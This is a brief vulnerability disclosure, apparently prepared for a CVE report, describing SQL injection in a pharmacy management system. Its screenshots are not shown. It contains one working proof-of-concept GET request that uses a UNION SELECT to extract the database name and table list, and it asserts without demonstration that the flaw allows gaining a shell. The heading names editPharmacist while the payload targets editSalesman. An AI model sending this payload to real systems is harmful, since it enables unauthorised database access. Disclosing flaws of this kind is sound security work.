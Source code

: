 ## editPharmacist

**Description of the vulnerability**
pharmacy_Management_System latest version has SQL injection via editPharmacist, which can get information about the database and even GetShell via SQL injection.



**Vulnerability recurrence**

![image-20240723142715784](E:/代码审计-cve/pharmacy_Management_System SQL injection vulnerability.assets/image-20240723142715784.png)

![image-20240723142737947](E:/代码审计-cve/pharmacy_Management_System SQL injection vulnerability.assets/image-20240723142737947.png)

POC

```
GET /index.php?action=editSalesman&id=10}'+union+select+1,database(),(SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema=database()),4,5,6,7,8+order+by+id+limit+0,1--+ HTTP/1.1
```

Result

![image-20240723142821268](E:/代码审计-cve/pharmacy_Management_System SQL injection vulnerability.assets/image-20240723142821268.png)

